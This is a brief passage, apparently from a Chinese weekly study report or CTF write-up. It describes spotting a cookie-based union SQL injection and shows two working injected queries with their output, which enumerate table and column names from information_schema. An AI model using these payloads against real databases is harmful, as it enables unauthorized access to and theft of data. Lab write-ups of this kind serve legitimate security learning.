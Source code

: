 ![1732533711923](image/1124-1130周报/1732533711923.png)

刷新发现：

![1732533754132](image/1124-1130周报/1732533754132.png)

猜测就是一个通过cookie传参的联合注入

```
select * from news where id=0 union select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
ID: 1
Data: dnrtjhvioq,news
```

```
select * from news where id=0 union select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='dnrtjhvioq'
ID: 1
Data: ssuyhfbsds
```
